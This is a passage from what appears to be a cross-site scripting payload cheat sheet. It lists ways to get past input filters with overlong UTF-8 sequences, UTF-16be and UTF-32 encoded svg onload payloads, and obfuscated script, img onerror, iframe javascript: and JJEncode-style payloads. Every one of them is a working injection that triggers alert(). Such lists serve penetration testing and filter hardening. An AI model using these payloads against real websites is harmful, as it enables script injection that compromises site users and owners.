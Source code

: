 ### Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

### Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

### Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### Bypass using weird encoding or native interpretation

```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
	
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>

<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>

```
